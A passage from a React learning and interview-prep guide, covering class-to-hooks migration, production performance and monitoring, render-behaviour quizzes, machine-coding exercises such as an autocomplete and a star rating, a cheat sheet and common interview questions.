    if (count > 0) log.push(`hooks: count is now ${count}`);
  }, [count]);
  return <button onClick={() => setCount(c => c + step)}>hooks {count}</button>;
}

const { unmount } = render(<><ClassCounter step={5} /><HookCounter step={5} /></>);
fireEvent.click(screen.getByText(/^class/));
fireEvent.click(screen.getByText(/^hooks/));
console.log(screen.getByText(/^class/).textContent, "|", screen.getByText(/^hooks/).textContent);
unmount();
console.log(log);
```

**Output:**

```text
class 5 | hooks 5
[
  'class: mounted',
  'hooks: mounted',
  'class: count 0 → 5',
  'hooks: count is now 5',
  'class: unmounting',
  'hooks: unmounting'
]
```

**An HOC and the hook that replaced it:**

```tsx
import type { ComponentType } from "react";

type User = { name: string };
const currentUser: User = { name: "Asha" };

// Old: a higher-order component injects `user` as a prop
function withUser<P extends { user: User }>(Wrapped: ComponentType<P>) {
  return function WithUser(props: Omit<P, "user">) {
    return <Wrapped {...(props as P)} user={currentUser} />;
  };
}
const GreetingOld = withUser(({ user, greeting }: { user: User; greeting: string }) => <p>{greeting}, {user.name}</p>);

// New: a hook
const useUser = () => currentUser;
function GreetingNew({ greeting }: { greeting: string }) {
  const user = useUser();
  return <p>{greeting}, {user.name}</p>;
}

console.log(render(<GreetingOld greeting="Welcome back" />).container.innerHTML, render(<GreetingNew greeting="Welcome back" />).container.innerHTML);
```

**Output:**

```text
<p>Welcome back, Asha</p> <p>Welcome back, Asha</p>
```

Same result, but the hook version has no wrapper component, no prop-name collisions and simpler types.

**Common mistakes (in legacy code):**

- Methods that lose `this` when passed as callbacks (`onClick={this.handleClick}` with a normal method). Use class arrow properties or `bind` in the constructor.
- `this.setState({ count: this.state.count + 1 })` several times (same snapshot issue as hooks); use the updater form.
- Side effects in `render()` or the constructor instead of `componentDidMount`.
- Forgetting to remove listeners in `componentWillUnmount`.

### Practice

1. Convert this to a function component with hooks: a class that in `componentDidMount` starts `setInterval(this.tick, 1000)`, in `componentWillUnmount` clears it, and `tick` does `this.setState(s => ({ seconds: s.seconds + 1 }))`.

<details>
<summary><b>Answer</b></summary>

<!-- no-run (conversion sketch) -->
```tsx
function Timer() {
  const [seconds, setSeconds] = useState(0);
  useEffect(() => {
    const id = setInterval(() => setSeconds(s => s + 1), 1000);   // componentDidMount
    return () => clearInterval(id);                                 // componentWillUnmount
  }, []);
  return <p>{seconds}s</p>;
}
```

The mount/unmount pair becomes one effect with cleanup, and the updater form (`s => s + 1`) means the effect doesn't depend on `seconds`.

</details>

**Learn more:** [react.dev: Component (class API)](https://react.dev/reference/react/Component) · [react.dev: Migrating from classes to hooks (legacy docs)](https://legacy.reactjs.org/docs/hooks-faq.html#from-classes-to-hooks) · [React 19 upgrade guide](https://react.dev/blog/2024/04/25/react-19-upgrade-guide)

---

## 33. Production React: Performance, Virtualisation, Monitoring and Deployment

### Theory

> **In simple words:** shipping React to real users means making it **load fast** (small JavaScript, optimised images, server rendering where it helps), **stay fast** (no long tasks, big lists virtualised), and **stay healthy** (errors and performance measured in production, safe releases). The biggest wins almost always come from sending **less JavaScript** and rendering **less DOM**.

**Production checklist:**

| Area | Practice |
|---|---|
| **Bundle size** | Analyse (`vite-bundle-visualizer`, `@next/bundle-analyzer`); code-split routes and heavy widgets with `lazy`; avoid huge dependencies (moment → `Intl`/date-fns); import only what you use |
| **Images** | Modern formats (AVIF/WebP), `width`/`height` set (prevents layout shift), `loading="lazy"` below the fold, responsive `srcSet`, framework image components (`next/image`) |
| **Fonts** | Self-host, `font-display: swap`, subset, preload the main font |
| **Rendering** | Server-render/prerender public pages; Server Components for data-heavy, low-interactivity UI |
| **Big lists** | **Virtualise**: render only visible rows (TanStack Virtual) |
| **Interactions** | Keep handlers light, use transitions for heavy updates, move CPU work to Web Workers |
| **Re-renders** | React Compiler; state colocated; selectors for global stores |
| **Measure** | Core Web Vitals from real users (`web-vitals` library → analytics), Lighthouse in CI, React DevTools Profiler |
| **Errors** | Error boundaries + **Sentry** (or similar) with source maps; alerts on error spikes |
| **Releases** | Preview deployments per PR, feature flags for risky features, gradual rollouts, quick rollback |
| **Config** | Validate env vars at build/startup; only public values in client env |
| **Deploy targets** | Vercel/Netlify/Cloudflare for frameworks and SPAs; static hosting + CDN for Vite SPAs; Docker/Node servers for self-hosted SSR |

**Virtualisation explained:** a list of 10,000 rows creates 10,000+ DOM nodes, which is slow to render and scroll. A virtualised list renders only the ~20 rows in view (plus a few extra), using a tall spacer element so the scrollbar still looks right; as you scroll, it swaps which rows are rendered.

### React

**A minimal virtualised list**: 10,000 rows, but only the visible window is in the DOM. (Real apps use TanStack Virtual, which also handles variable row heights and scrolling details.)

```tsx
import { useState } from "react";
import { render, screen, fireEvent } from "@testing-library/react";

function VirtualList<T>({ items, rowHeight, height, renderRow }: {
  items: T[]; rowHeight: number; height: number; renderRow: (item: T, index: number) => React.ReactNode;
}) {
  const [scrollTop, setScrollTop] = useState(0);
  const overscan = 3;
  const first = Math.max(0, Math.floor(scrollTop / rowHeight) - overscan);
  const last = Math.min(items.length - 1, Math.ceil((scrollTop + height) / rowHeight) + overscan);
  const visible = items.slice(first, last + 1);

  return (
    <div data-testid="viewport" style={{ height, overflowY: "auto" }} onScroll={e => setScrollTop(e.currentTarget.scrollTop)}>
      <div style={{ height: items.length * rowHeight, position: "relative" }}>
        {visible.map((item, i) => (
          <div key={first + i} style={{ position: "absolute", top: (first + i) * rowHeight, height: rowHeight }}>
            {renderRow(item, first + i)}
          </div>
        ))}
      </div>
    </div>
  );
}

const orders = Array.from({ length: 10_000 }, (_, i) => ({ id: 100000 + i, total: (i * 37) % 5000 }));
render(<VirtualList items={orders} rowHeight={40} height={400} renderRow={o => <span>#{o.id} · ₹{o.total}</span>} />);

const rowsInDom = () => screen.getByTestId("viewport").querySelectorAll("span").length;
const firstRow = () => screen.getByTestId("viewport").querySelector("span")!.textContent;
console.log(`${orders.length} orders, ${rowsInDom()} rendered, first: ${firstRow()}`);

const viewport = screen.getByTestId("viewport");
viewport.scrollTop = 200_000;                                  // scroll to row 5000
fireEvent.scroll(viewport);
console.log(`after scrolling: ${rowsInDom()} rendered, first: ${firstRow()}`);
```

**Output:**

```text
10000 orders, 14 rendered, first: #100000 · ₹0
after scrolling: 17 rendered, first: #104997 · ₹4889
```

**Measuring real-user performance** with the `web-vitals` library, and reporting errors:

<!-- no-run (browser entry code; needs web-vitals and Sentry packages) -->
```tsx
import { onCLS, onINP, onLCP } from "web-vitals";
import * as Sentry from "@sentry/react";

Sentry.init({
  dsn: import.meta.env.VITE_SENTRY_DSN,          // public DSN is fine to expose
  tracesSampleRate: 0.1,                          // sample 10% of transactions
  release: import.meta.env.VITE_RELEASE,          // match uploaded source maps
});

function report(metric: { name: string; value: number; rating: string }) {
  navigator.sendBeacon("/analytics/vitals", JSON.stringify(metric));
}
onLCP(report);
onINP(report);
onCLS(report);
```

**Route-level code splitting** so each page loads only its own code:

<!-- no-run (React Router route config in a Vite app) -->
```tsx
const routes = [
  { path: "/", lazy: () => import("./routes/home") },                 // each module exports Component, loader…
  { path: "/checkout", lazy: () => import("./routes/checkout") },
  { path: "/admin/*", lazy: () => import("./routes/admin") },         // admin code never loads for customers
];
```

**Common mistakes:**

- Optimising in development mode (slower by design) instead of measuring production builds and real-user data.
- Rendering thousands of rows or a whole table of charts at once.
- Shipping a whole library for one function; forgetting to lazy-load heavy editors, maps and charts.
- No error monitoring: users hit errors you never hear about.
- Uploading source maps publicly (upload them to your error tracker privately instead).

### Practice

1. Your product page has LCP 4.1 s and INP 450 ms on mid-range phones. List the first things you'd check for each metric.

<details>
<summary><b>Answer</b></summary>

**LCP** (the main image/heading appears late): is the page server-rendered or prerendered? Is the LCP image optimised, correctly sized, not lazy-loaded, and preloaded/prioritised (`fetchpriority="high"`)? Is render-blocking CSS/JS or a slow API (TTFB) delaying it? Are web fonts blocking text? **INP** (slow response to taps): find long tasks in the Performance panel; check expensive re-renders on interaction (Profiler), large lists (virtualise), heavy synchronous work in handlers (move to transitions or a Web Worker), too much third-party script (analytics, chat widgets), and hydration of too much JavaScript (Server Components, code splitting).

</details>

---

### ✅ Part 6 checkpoint

Without looking, can you:

- [ ] Organise a large React codebase by feature, with a design system, clear public APIs and import rules?
- [ ] Read class components and map lifecycle methods and HOCs to hooks?
- [ ] Reduce bundle size, virtualise big lists, measure Core Web Vitals and monitor errors in production?

**Learn more:** [web.dev: Optimize LCP](https://web.dev/articles/optimize-lcp) · [web.dev: Optimize INP](https://web.dev/articles/optimize-inp) · [TanStack Virtual](https://tanstack.com/virtual/latest) · [Sentry for React](https://docs.sentry.io/platforms/javascript/guides/react/)

---

# Part 7 — Interview Prep: Revision

> **Goal:** Revise with behaviour questions, machine coding problems, a cheat sheet and the most-asked questions.  
> **You need:** Parts 1–6.

---

## 34. Behaviour Questions: What Renders, What Logs, and When

### Theory

> **In simple words:** React interviews often show a component and ask "what does the screen show after clicking?", "how many times does this log?" or "why is this value stale?". They test state snapshots, batching, effect timing and order, closures, keys and re-rendering. For each question, **predict first**, then open the answer. Every answer shows real output from React 19.

**Mental model to reason with:** a click runs the handler with the **current snapshot** → updates are **queued and batched** → React **re-renders** (children first finish rendering, parents' JSX is already computed) → the DOM is **committed** → **layout effects**, then **effects** run: children's effects before parents', and cleanups of the previous run before new setups.

### React

**1. Three updates in one click**

```tsx
import { useState, useEffect, useLayoutEffect, useRef } from "react";
import { render, screen, fireEvent } from "@testing-library/react";
import { act } from "react";

function Q1() {
  const [n, setN] = useState(0);
  return (
    <button onClick={() => { setN(n + 1); setN(c => c + 1); setN(n + 5); }}>{n}</button>
  );
}
render(<Q1 />);
fireEvent.click(screen.getByRole("button"));
console.log(screen.getByRole("button").textContent);
```

<details>
<summary><b>Answer</b></summary>

**Output:**

```text
5
```

The queue is: "replace with 0+1", "add 1", "replace with 0+5". Processed in order: 1 → 2 → 5. The last plain value wins because `n` is the snapshot `0`.

</details>

**2. Effect order: parent and child, mount and update**

```tsx
const order: string[] = [];
function Child({ v }: { v: number }) {
  order.push(`render child ${v}`);
  useEffect(() => { order.push(`effect child ${v}`); return () => { order.push(`cleanup child ${v}`); }; }, [v]);
  useLayoutEffect(() => { order.push(`layout child ${v}`); }, [v]);
  return null;
}
function Parent() {
  const [v, setV] = useState(1);
  order.push(`render parent ${v}`);
  useEffect(() => { order.push(`effect parent ${v}`); }, [v]);
  return <><Child v={v} /><button onClick={() => setV(2)}>go</button></>;
}
render(<Parent />);
order.push("--- click");
fireEvent.click(screen.getByText("go"));
console.log(order);
```

<details>
<summary><b>Answer</b></summary>

**Output:**

```text
[
  'render parent 1',
  'render child 1',
  'layout child 1',
  'effect child 1',
  'effect parent 1',
  '--- click',
  'render parent 2',
  'render child 2',
  'layout child 2',
  'cleanup child 1',
  'effect child 2',
  'effect parent 2'
]
```

Parents render before children; effects run after the commit, **children first** (a parent's effect may rely on its children being ready). Layout effects run before regular effects. On update, the old cleanup runs right before the new effect.

</details>

**3. The stale closure in an interval**

```tsx
function Q3() {
  const [count, setCount] = useState(0);
  useEffect(() => {
    const id = setInterval(() => setCount(count + 1), 10);   // captures count = 0 forever
    return () => clearInterval(id);
  }, []);
  return <p>{count}</p>;
}
const q3 = render(<Q3 />);
await act(() => new Promise(r => setTimeout(r, 75)));
console.log(document.querySelector("p")!.textContent);
q3.unmount();
```

<details>
<summary><b>Answer</b></summary>

**Output:**

```text
1
```

The effect ran once, so its interval callback always sees `count = 0` and keeps setting `0 + 1`. Fix: `setCount(c => c + 1)` (or add `count` to the dependencies, which restarts the interval every tick).

</details>

**4. How many renders?**

```tsx
let renders = 0;
function Q4() {
  renders++;
  const [a, setA] = useState(0);
  const [b, setB] = useState(0);
  return (
    <button onClick={() => { setA(1); setB(1); setA(1); }}>
      {a}{b}
    </button>
  );
}
render(<Q4 />);
fireEvent.click(screen.getByRole("button"));
fireEvent.click(screen.getByRole("button"));
console.log(screen.getByRole("button").textContent, "renders:", renders);
```

<details>
<summary><b>Answer</b></summary>

**Output:**

```text
11 renders: 3
```

First render + **one** batched render for the first click (three `set` calls, one render). The second click sets the **same** values. React may still call the component once more before it notices nothing changed (a documented quirk: "React may still need to call your component before skipping the children"), but it then bails out: children aren't re-rendered and the DOM isn't touched. So the answer is 3 renders, not 4, and not 2.

</details>

**5. Refs don't re-render; state does**

```tsx
function Q5() {
  const ref = useRef(0);
  const [, force] = useState(0);
  return (
    <div>
      <button onClick={() => { ref.current++; }}>ref++</button>
      <button onClick={() => force(x => x + 1)}>rerender</button>
      <p>{ref.current}</p>
    </div>
  );
}
render(<Q5 />);
fireEvent.click(screen.getByText("ref++"));
fireEvent.click(screen.getByText("ref++"));
console.log("after ref++ ×2:", document.querySelector("p")!.textContent);
fireEvent.click(screen.getByText("rerender"));
console.log("after rerender:", document.querySelector("p")!.textContent);
```

<details>
<summary><b>Answer</b></summary>

**Output:**

```text
after ref++ ×2: 0
after rerender: 2
```

The ref changed, but nothing re-rendered until an unrelated state update, which then showed the ref's current value.

</details>

**6. Object in the dependency array**

```tsx
let effectRuns = 0;
function Q6() {
  const [n, setN] = useState(0);
  const options = { page: 1 };                         // new object every render
  useEffect(() => { effectRuns++; }, [options]);
  return <button onClick={() => setN(n + 1)}>{n}</button>;
}
render(<Q6 />);
fireEvent.click(screen.getByRole("button"));
fireEvent.click(screen.getByRole("button"));
console.log("effect ran", effectRuns, "times");
```

<details>
<summary><b>Answer</b></summary>

**Output:**

```text
effect ran 3 times
```

`{ page: 1 }` is a new object on every render, so the dependency "changed" every time. Fix: depend on `options.page` (a primitive), move the object inside the effect, or `useMemo` it.

</details>

**7. Conditional `&&` with a number**

```tsx
function Q7({ items }: { items: string[] }) {
  return <div>{items.length && <ul>{items.map(i => <li key={i}>{i}</li>)}</ul>}</div>;
}
console.log(render(<Q7 items={[]} />).container.innerHTML, render(<Q7 items={["tea"]} />).container.innerHTML);
```

<details>
<summary><b>Answer</b></summary>

**Output:**

```text
<div>0</div> <div><ul><li>tea</li></ul></div>
```

`0 && ...` evaluates to `0`, which React renders. Use `items.length > 0 && ...`.

</details>

### Practice

1. Predict the text after one click, then check:

```tsx
function Practice() {
  const [text, setText] = useState("a");
  function handle() {
    setText(t => t + "b");
    setText(text + "c");
    setText(t => t + "d");
  }
  return <button onClick={handle}>{text}</button>;
}
render(<Practice />);
fireEvent.click(screen.getByRole("button"));
console.log(screen.getByRole("button").textContent);
```

<details>
<summary><b>Answer</b></summary>

**Output:**

```text
acd
```

Queue: `t → t+"b"` gives "ab"; `"a" + "c"` (snapshot) replaces it with "ac"; `t → t+"d"` gives "acd".

</details>

**Learn more:** [react.dev: Queueing a series of state updates](https://react.dev/learn/queueing-a-series-of-state-updates) · [react.dev: Removing effect dependencies](https://react.dev/learn/removing-effect-dependencies)

---

## 35. Machine Coding Round: Classic Components Built and Tested

### Theory

> **In simple words:** in a "machine coding" (or "frontend system coding") round you build a small working feature in 45–90 minutes: a todo list, an autocomplete, a star rating, pagination, a modal, infinite scroll, a file explorer. Interviewers look for **working code first**, then **clean state design**, **accessibility**, **edge cases** and **performance**, and how you **talk through trade-offs**.

**How to approach it:**

1. **Clarify requirements** (2–5 min): features, edge cases (empty, loading, errors, long text), keyboard support, mobile?
2. **Design the state**: what's the minimal state, what's derived, where does it live?
3. **Build the simplest working version**, then iterate: validation, loading/error states, accessibility, polish.
4. **Test as you go** (click through it; mention how you'd write Testing Library tests).
5. **Discuss improvements**: performance (debounce, memo, virtualisation), extensibility, tests.

**Frequently asked:** todo list with filters · autocomplete/typeahead with debounce and keyboard navigation · star rating · accordion/tabs · modal/dialog · infinite scroll / pagination · data table with sort, filter and pagination · nested comments or file explorer (recursion) · progress bar / stepper / form wizard · countdown timer or stopwatch · image carousel · Kanban board (drag and drop) · OTP input · toast notifications · Tic-tac-toe / memory game.

### React

**1. Todo list with filters** (add, toggle, delete, filter, count, derived state):

```tsx
import { useEffect, useMemo, useRef, useState } from "react";
import { render, screen, fireEvent, cleanup } from "@testing-library/react";
import { act } from "react";

type Todo = { id: number; text: string; done: boolean };
type Filter = "all" | "active" | "done";

function TodoApp() {
  const [todos, setTodos] = useState<Todo[]>([]);
  const [text, setText] = useState("");
  const [filter, setFilter] = useState<Filter>("all");
  const nextId = useRef(1);

  const visible = todos.filter(t => (filter === "all" ? true : filter === "done" ? t.done : !t.done));
  const remaining = todos.filter(t => !t.done).length;

  function add() {
    const value = text.trim();
    if (!value) return;
    setTodos([...todos, { id: nextId.current++, text: value, done: false }]);
    setText("");
  }

  return (
    <section>
      <form onSubmit={e => { e.preventDefault(); add(); }}>
        <input aria-label="New todo" value={text} onChange={e => setText(e.target.value)} />
        <button>Add</button>
      </form>
      <ul>
        {visible.map(t => (
          <li key={t.id}>
            <label><input type="checkbox" checked={t.done} onChange={() => setTodos(todos.map(x => (x.id === t.id ? { ...x, done: !x.done } : x)))} /> {t.text}</label>
            <button aria-label={`Delete ${t.text}`} onClick={() => setTodos(todos.filter(x => x.id !== t.id))}>×</button>
          </li>
        ))}
      </ul>
      <p>{remaining} left</p>
      {(["all", "active", "done"] as const).map(f => (
        <button key={f} aria-pressed={filter === f} onClick={() => setFilter(f)}>{f}</button>
      ))}
    </section>
  );
}

render(<TodoApp />);
for (const t of ["Buy tea", "  ", "Call Ravi", "Pay bill"]) {
  fireEvent.change(screen.getByLabelText("New todo"), { target: { value: t } });
  fireEvent.click(screen.getByText("Add"));
}
fireEvent.click(screen.getByLabelText("Call Ravi"));
fireEvent.click(screen.getByLabelText("Delete Pay bill"));
const items = () => [...document.querySelectorAll("li")].map(li => li.textContent?.replace("×", "").trim());
console.log("all:", items(), "|", screen.getByText(/left/).textContent);
fireEvent.click(screen.getByText("done"));
console.log("done:", items());
cleanup();
```

**Output:**

```text
all: [ 'Buy tea', 'Call Ravi' ] | 1 left
done: [ 'Call Ravi' ]
```

**2. Autocomplete with debounce, keyboard navigation and ARIA** (the most-asked one):

```tsx
const FRUITS = ["Apple", "Apricot", "Avocado", "Banana", "Blueberry", "Cherry", "Mango", "Orange"];
const sleep = (ms: number) => new Promise(r => setTimeout(r, ms));
let apiCalls = 0;
async function searchApi(q: string): Promise<string[]> {
  apiCalls++;
  await sleep(10);
  return FRUITS.filter(f => f.toLowerCase().startsWith(q.toLowerCase())).slice(0, 5);
}

function Autocomplete({ onSelect }: { onSelect: (v: string) => void }) {
  const [value, setValue] = useState("");           // what the input shows
  const [query, setQuery] = useState("");           // what we search for (only changes when the user types)
  const [results, setResults] = useState<string[]>([]);
  const [active, setActive] = useState(-1);
  const [open, setOpen] = useState(false);

  useEffect(() => {
    if (!query.trim()) { setResults([]); return; }
    let ignore = false;
    const id = setTimeout(async () => {
      const r = await searchApi(query);
      if (!ignore) { setResults(r); setActive(-1); setOpen(true); }
    }, 40);                                                       // debounce
    return () => { ignore = true; clearTimeout(id); };           // cancel stale searches
  }, [query]);

  function choose(choice: string) {
    onSelect(choice);
    setValue(choice);                               // show it, but don't trigger a new search
    setOpen(false);
  }

  return (
    <div>
      <input role="combobox" aria-label="Fruit" aria-expanded={open} aria-controls="fruit-list"
        aria-activedescendant={active >= 0 ? `fruit-${active}` : undefined}
        value={value}
        onChange={e => { setValue(e.target.value); setQuery(e.target.value); }}
        onKeyDown={e => {
          if (e.key === "ArrowDown") setActive(a => Math.min(results.length - 1, a + 1));
          else if (e.key === "ArrowUp") setActive(a => Math.max(0, a - 1));
          else if (e.key === "Enter" && active >= 0) choose(results[active]!);
          else if (e.key === "Escape") setOpen(false);
        }} />
      {open && results.length > 0 && (
        <ul id="fruit-list" role="listbox">
          {results.map((r, i) => (
            <li key={r} id={`fruit-${i}`} role="option" aria-selected={i === active} onMouseDown={() => choose(r)}>{r}</li>
          ))}
        </ul>
      )}
    </div>
  );
}

render(<Autocomplete onSelect={v => console.log("selected:", v)} />);
const input = screen.getByRole("combobox");
for (const q of ["a", "ap", "apr"]) fireEvent.change(input, { target: { value: q } });   // fast typing
fireEvent.change(input, { target: { value: "a" } });
await act(() => sleep(100));
console.log("options:", screen.getAllByRole("option").map(o => o.textContent), "| API calls:", apiCalls);
fireEvent.keyDown(input, { key: "ArrowDown" });
fireEvent.keyDown(input, { key: "ArrowDown" });
console.log("active:", screen.getByRole("option", { selected: true }).textContent);
fireEvent.keyDown(input, { key: "Enter" });
await act(() => sleep(100));
console.log("input now:", (input as HTMLInputElement).value, "| list open:", !!screen.queryByRole("listbox"), "| API calls:", apiCalls);
cleanup();
```

**Output:**

```text
options: [ 'Apple', 'Apricot', 'Avocado' ] | API calls: 1
active: Apricot
selected: Apricot
input now: Apricot | list open: false | API calls: 1
```

Four keystrokes, **one** API call (debounce), full keyboard support, and ARIA roles so screen readers announce it as a combobox. Keeping the displayed `value` separate from the search `query` matters: an earlier version set the query to the chosen fruit, which triggered a new search and **re-opened** the list right after selecting.

**3. Nested comments / file tree** (recursion):

```tsx
type Node = { id: string; name: string; children?: Node[] };

function Tree({ node, depth = 0 }: { node: Node; depth?: number }) {
  const [open, setOpen] = useState(depth === 0);
  const isFolder = !!node.children;
  return (
    <li>
      {isFolder ? <button aria-expanded={open} onClick={() => setOpen(!open)}>{open ? "📂" : "📁"} {node.name}</button> : <span>📄 {node.name}</span>}
      {isFolder && open && <ul>{node.children!.map(c => <Tree key={c.id} node={c} depth={depth + 1} />)}</ul>}
    </li>
  );
}

const fs: Node = { id: "1", name: "src", children: [
  { id: "2", name: "components", children: [{ id: "3", name: "Button.tsx" }] },
  { id: "4", name: "main.tsx" },
] };
render(<ul><Tree node={fs} /></ul>);
const visibleNames = () => [...document.querySelectorAll("button, span")].map(e => e.textContent);
console.log(visibleNames());
fireEvent.click(screen.getByText(/components/));
console.log(visibleNames());
cleanup();
```

**Output:**

```text
[ '📂 src', '📁 components', '📄 main.tsx' ]
[ '📂 src', '📂 components', '📄 Button.tsx', '📄 main.tsx' ]
```

**Common mistakes in machine coding rounds:**

- Jumping into code without clarifying requirements or designing state.
- Storing derived data (filtered lists, counts) in state and getting it out of sync.
- No keys or index keys in editable lists; no empty/loading/error states.
- Forgetting accessibility (labels, buttons, keyboard) and cleanup (timers, listeners).
- Running out of time polishing CSS before the core behaviour works.

### Practice

1. Build a **star rating** with hover preview: hovering star 4 shows 4 filled stars, leaving restores the selected rating, clicking selects. Test hover → leave → click.

<details>
<summary><b>Answer</b></summary>

```tsx
function StarRating({ max = 5 }: { max?: number }) {
  const [rating, setRating] = useState(0);
  const [hover, setHover] = useState(0);
  const shown = hover || rating;
  return (
    <div role="radiogroup" aria-label="Rating" onMouseLeave={() => setHover(0)}>
      {Array.from({ length: max }, (_, i) => i + 1).map(n => (
        <button key={n} role="radio" aria-checked={rating === n} aria-label={`${n} star${n > 1 ? "s" : ""}`}
          onMouseEnter={() => setHover(n)} onClick={() => setRating(n)}>{n <= shown ? "★" : "☆"}</button>
      ))}
    </div>
  );
}

render(<StarRating />);
const stars = () => screen.getByRole("radiogroup").textContent;
fireEvent.mouseEnter(screen.getByLabelText("4 stars"));
console.log("hover 4:", stars());
fireEvent.mouseLeave(screen.getByRole("radiogroup"));
console.log("leave:  ", stars());
fireEvent.click(screen.getByLabelText("3 stars"));
console.log("click 3:", stars());
```

**Output:**

```text
hover 4: ★★★★☆
leave:   ☆☆☆☆☆
click 3: ★★★☆☆
```

</details>

**Learn more:** [GreatFrontEnd: user interface questions](https://www.greatfrontend.com/questions/user-interface) · [WAI-ARIA: Combobox pattern](https://www.w3.org/WAI/ARIA/apg/patterns/combobox/) · [react.dev: Thinking in React](https://react.dev/learn/thinking-in-react)

---

## 36. React Cheat Sheet

**Components, JSX and props:**

```text
function Card({ title, children, onAdd, size = "md" }: Props) { return <div className="card">{title}{children}</div>; }
{expr}  {cond ? <A/> : <B/>}  {cond && <A/>} (not with numbers: use n > 0 &&)  {items.map(i => <Row key={i.id} {...i}/>)}
className  htmlFor  style={{ fontSize: 14 }}  onClick={handle} (not handle())  <>…</> fragments  {/* comment */}
props are read-only · components are pure · one-way data flow: data down, events up (callbacks)
```

**Hooks:**

```text
const [v, setV] = useState(init | () => init)     setV(x) · setV(prev => next) · never mutate: [...a, x], {...o, k}
const [s, dispatch] = useReducer(reducer, init)    dispatch({ type: "added", ... })
useEffect(() => { setup; return cleanup; }, [deps])     sync with external systems only; [] = mount/unmount
const ref = useRef<HTMLInputElement>(null)          ref.current (no re-render) · <input ref={ref}/> · ref is a prop (React 19)
useContext(Ctx) / use(Ctx)    <Ctx value={v}>…</Ctx>   custom hook useX() that throws without a provider
useMemo(() => calc, [deps])  useCallback(fn, [deps])  memo(Component)   → or let the React Compiler do it
const [isPending, startTransition] = useTransition()   useDeferredValue(value)   use(promise) inside <Suspense>
useActionState(action, init) → [state, formAction, isPending]   useFormStatus()   useOptimistic(state, update)
useId()  useSyncExternalStore(sub, getSnapshot)  useLayoutEffect (measure before paint)  useImperativeHandle
Rules: top level only, only in components/hooks, names start with "use"
```

**Rendering model:**

```text
trigger (state/context change, parent render) → render (call components) → reconcile (diff by type + position + key) → commit (DOM) → layout effects → effects
state belongs to a position in the tree · key change = new instance (reset) · children effects run before parents'
Strict Mode (dev): double render + effect setup/cleanup/setup
```

**Data, routing, forms, state:**

```text
server state → TanStack Query (queryKey, staleTime, invalidateQueries) or loaders / Server Components
URL state → useSearchParams · routes: createBrowserRouter([{ path, Component, loader, action, ErrorBoundary }])
forms → <form action>, useActionState, React Hook Form + zodResolver · validate on the server too
global client state → context (rare changes) · Zustand with selectors · Redux Toolkit for big teams
```

**Next.js / RSC:** server components by default (async, DB access, no JS shipped) · `"use client"` for interactivity (push to leaves) · `"use server"` functions = public endpoints (auth + validate) · `loading.tsx` / `error.tsx` · `"use cache"` + `cacheTag` / `revalidateTag`.

**Testing:** `render`, `screen.getByRole("button", { name })`, `getByLabelText`, `findBy…` (async), `queryBy…` (absent) · `userEvent.setup()` + `await user.click/type` · MSW for APIs · Playwright for E2E.

**Performance:** measure (Profiler, Web Vitals) · colocate state · compiler/memo · virtualise long lists · `lazy` + Suspense · transitions for heavy updates · fewer/lighter dependencies.

**Accessibility & security:** real `<button>`/`<a>`/`<label>` · `aria-*` only when needed · focus management in dialogs · React escapes text; avoid `dangerouslySetInnerHTML` (sanitise with DOMPurify) · validate URLs · no secrets in `VITE_*` / `NEXT_PUBLIC_*` · HttpOnly cookies for sessions.

**Gotchas:** state is a snapshot · `{0 && …}` renders 0 · index keys in dynamic lists · objects/functions in deps re-run effects · missing effect cleanup · mutating state · copying props into state · components defined inside components · `async` effect functions · fetching without handling race conditions · `setState` inside an async action isn't shown until it finishes (use `isPending`).

---

## 37. Most Asked React Interview Questions

**Basics**

1. **What is React and why use it?** → A library for building UIs from components. You describe the UI for the current state and React updates the DOM efficiently. Benefits: reusable components, one-way data flow, huge ecosystem, same model on web (React DOM), mobile (React Native) and server (RSC).
2. **What is JSX?** → Syntax that looks like HTML inside JavaScript, compiled to `jsx()` function calls that create element objects. Expressions go in `{}`; attributes are camelCase (`className`, `onClick`).
3. **Props vs state?** → Props are inputs from the parent (read-only); state is data a component owns and changes over time. Changing state re-renders the component.
4. **Why are keys needed in lists?** → They give each item a stable identity so React can match items between renders when they're added, removed or reordered, keeping state and DOM attached to the right item. Use IDs, not indexes, for dynamic lists.
5. **Controlled vs uncontrolled inputs?** → Controlled: value in React state with `value` + `onChange`. Uncontrolled: the DOM keeps the value; read it via `FormData` or a ref (`defaultValue`). Both are valid.
6. **What is the virtual DOM?** → A lightweight description of the UI (React elements / fiber tree). React compares the new description with the previous one and applies only the differences to the real DOM.
7. **What are fragments?** → `<>...</>` lets a component return several elements without an extra wrapper element.
8. **How do you pass data from child to parent?** → The parent passes a callback prop; the child calls it (`onChange(value)`). Data flows down, events flow up.
9. **What are hooks and their rules?** → Functions (`use…`) that let components use state and React features. Call them only at the top level of components/custom hooks, never conditionally, because React tracks hooks by call order.
10. **Why is `setState` "asynchronous"?** → Updates are queued and batched; the component re-renders later with the new value. Inside the current render/handler, the state variable is a fixed snapshot. Use the updater form (`setX(x => x + 1)`) when the new value depends on the old one.

**Intermediate**

11. **Explain `useEffect` and its dependency array.** → Runs after commit to synchronise with external systems; re-runs when dependencies change; the returned cleanup runs before the next run and on unmount. `[]` = once after mount.
12. **When don't you need an effect?** → For derived data (compute during render), responding to events (do it in the handler), resetting state on prop change (use a `key`), and in many data-fetching cases (loaders, TanStack Query, RSC).
13. **What causes a component to re-render?** → Its state changes, a context it uses changes, or its parent re-renders. Not "props changed" by itself.
14. **`useMemo` vs `useCallback` vs `memo`?** → `useMemo` caches a computed value, `useCallback` caches a function, `memo` skips re-rendering a component when props are shallow-equal. Use them for measured problems or stable references; the React Compiler now automates most of this.
15. **What is the React Compiler?** → A build-time tool that automatically memoises components and values based on the Rules of React, removing most manual `useMemo`/`useCallback`/`memo`.
16. **What is context and when is it a bad choice?** → A way to share values deeply without props. Bad for frequently changing values read by many components (all consumers re-render) and for server data; split contexts or use a store with selectors.
17. **`useReducer` vs `useState`?** → `useReducer` centralises complex update logic in a pure `(state, action) => newState` function; better for related values and many update types; easy to test.
18. **What are custom hooks?** → Functions starting with `use` that combine hooks to share **logic** (not state) between components.
19. **What is lifting state up?** → Moving state to the closest common parent so siblings can share it, passing values and callbacks down.
20. **What are error boundaries?** → Components that catch render errors in their subtree and show a fallback. Written as classes (`getDerivedStateFromError`, `componentDidCatch`) or with `react-error-boundary`. They don't catch errors in event handlers or async code.
21. **Explain Suspense and `lazy`.** → Suspense shows a fallback while children are waiting (lazy code, `use(promise)`, framework data). `lazy(() => import())` code-splits components.
22. **What are portals?** → `createPortal(children, domNode)` renders into a different DOM node (e.g. `body`) while keeping React context and event bubbling; used for modals, tooltips, toasts.
